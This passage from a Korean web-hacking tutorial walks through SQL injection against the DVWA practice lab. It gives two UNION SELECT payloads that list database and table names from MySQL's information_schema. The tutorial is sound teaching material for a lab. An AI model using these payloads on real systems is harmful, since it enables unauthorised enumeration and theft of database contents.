 
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">‘&nbsp;UNION&nbsp;<span style="color:#ff3399">SELECT</span>&nbsp;schema_name,<span style="color:#004fc8">2</span>&nbsp;<span style="color:#ff3399">from</span>&nbsp;information_schema.schemata#&nbsp;</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>

-MYSQL DB는 information_shema라는 DB에서 데이터베이스 이름,<br>

테이블, 칼럼 정보 등을 관리, 따라서 information_schema의 <br>

schemata 테이블로부터 shema_name을 가져오는 SQL 쿼리문을 이용하면 DB이름을 알아낼 수 있음<br>

-‘앞에 상수를 써도 되지만 안 써도 무방합니다.
<div align="center" >
<img src="/Art of Web Hacking/Chapter7/005.png" width="600" height="300"> <br>
</div>스샷. 5<br>
- first name 뒤에 데이터 베이스의 이름이 출력되고 있고, DVWA에서<br>
사용하는 DB의 이름이 dvwa임을 추측 할 수 있습니다.<br>


<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#7DA123">'&nbsp;UNION&nbsp;SELECT&nbsp;table_name,2&nbsp;from&nbsp;information_schema.tables&nbsp;where&nbsp;table_schema='</span>dvwa<span style="color:#7DA123">'#</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>
